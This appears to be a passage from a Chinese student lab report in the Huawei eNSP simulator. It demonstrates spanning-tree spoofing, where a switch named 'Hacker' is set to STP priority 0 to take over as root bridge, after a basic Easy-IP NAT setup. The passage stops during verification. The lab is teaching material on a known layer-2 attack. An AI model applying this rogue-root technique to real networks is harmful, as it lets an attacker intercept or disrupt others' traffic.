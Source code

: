 #### 路由器R1 Easy-IP 配置

##### R1

```bash
[R1]acl 2000
[R1-acl-basic-2000]rule permit source 192.168.0.0 0.0.255.255
[R1-acl-basic-2000]q
[R1]int s2/0/0
[R1-Serial2/0/0]nat outbound 2000
[R1-Serial2/0/0]q
[R1]
```

#### 基本配置验证

1.查看SW3生成树与端口详细信息

![2](D:\作业\华为ENSP攻防\生成树欺骗\image\2.png)

2.查看SW3生成树借口简要信息

![3](D:\作业\华为ENSP攻防\生成树欺骗\image\3.png)

## 入侵配置

#### 黑客交换机接入与生成树配置

```bash
<Huawei>
<Huawei>system-view 
[Huawei]sysname Hacker
[Hacker]undo info-center enable 
[Hacker]stp enable 
[Hacker]stp mode rstp
[Hacker]stp priority 0
[Hacker]
```

#### 生成树重新选举与验证

验证黑客交换机选举为根交换机

![](D:\作业\华为ENSP攻防\生成树欺骗\image\4.png)

验证SW3交换机为非根交换机

![5](D:\作业\华为ENSP攻防\生成树欺骗\image\5.png)

验证SW3阻塞端口与备份链路

![6](D:\作业\华为ENSP攻防\生成树欺骗\image\6.png)

验证SW2阻塞端口与备份链路
